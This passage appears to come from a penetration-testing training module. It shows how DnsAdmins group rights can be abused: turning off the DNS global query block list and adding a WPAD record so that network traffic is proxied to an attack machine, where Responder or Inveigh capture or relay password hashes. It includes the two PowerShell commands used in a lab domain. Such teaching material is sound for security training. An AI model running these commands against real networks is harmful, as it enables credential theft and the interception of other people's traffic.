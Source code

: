 ```c
	}
	return ERROR_SUCCESS;
}
```

---

## Creating a WPAD Record

Another way to abuse DnsAdmins group privileges is by creating a WPAD record. Membership in this group gives us the rights to [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps), which by default blocks this attack. Server 2008 first introduced the ability to add to a global query block list on a DNS server. By default, Web Proxy Automatic Discovery Protocol (WPAD) and Intra-site Automatic Tunnel Addressing Protocol (ISATAP) are on the global query block list. These protocols are quite vulnerable to hijacking, and any domain user can create a computer object or DNS record containing those names.

After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through our attack machine. We could use a tool such as [Responder](https://github.com/lgandx/Responder) or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.

#### Disabling the Global Query Block List

To set up this attack, we first disabled the global query block list:

DnsAdmins

```powershell-session
C:\htb> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

#### Adding a WPAD Record

Next, we add a WPAD record pointing to our attack machine.

DnsAdmins

```powershell-session
C:\htb> Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

